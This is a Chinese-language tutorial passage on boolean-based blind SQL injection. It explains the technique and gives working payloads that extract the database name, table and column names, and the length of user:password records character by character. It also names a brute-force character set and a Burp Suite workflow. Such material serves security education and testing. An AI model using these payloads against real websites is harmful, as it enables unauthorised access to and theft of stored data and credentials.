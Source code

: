 
##### 5.2.1 布尔型盲注入

对于那些只能进行盲注入的网页，由于输入内容的改变只会造成页面UI的不一样，但是无法直接通过拼接数据库查询语句返回有消息。因此在处理盲注入的时候，通过拼接`select if(1=1,1,0)`这种判断语句，转换成自己想要知道的信息的比较，从真值中获得自己想要的信息。



1. ###### 布尔型盲注入获取数据库敏感信息

基于布尔盲注的原理，可以构造获取数据库信息的时候，根据全字符或部分字符进行判断，从而获取数据的敏感信息。

如：

```	sql
select if(substring(database(),1,1)='d',1,0)
```

**substr 的用法和 limit 有区别，limit从 0 开始排序，substr从 1 开始排序。**

2. ###### 黑盒模式下布尔型注入

步骤：

- 首先判断注入
- 获取数据库长度，得到长度后，通过部分截取字符比较，得到每个字符，具体操作使用burpsuite的`Cluster boomb`模式，其实也是可以自己写脚本来进行循环判断字符。
- 同样的思路去查询表
- 最后指定查询表中的数据

一般进行判断比较字符库：

```shell
a = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_"
```



1. 获取库名

```sql
1' and if(substring(database(),1,1)='d',1,0)--+
```

2. 获取表名

```sql
1'and if(substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1),1,1)='g',1,0)--+
```

3. 获取列名

```sql
1'and if(substring((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1,1),1,1)='u',1,0)--+
```

4. 获取每一行数据

```sql
# 首先判断查询账号和密码的长度
1'and if((SELECT LENGTH(CONCAT(user,0x3a,PASSWORD)) from users limit 1)=38,1,0)--+
```

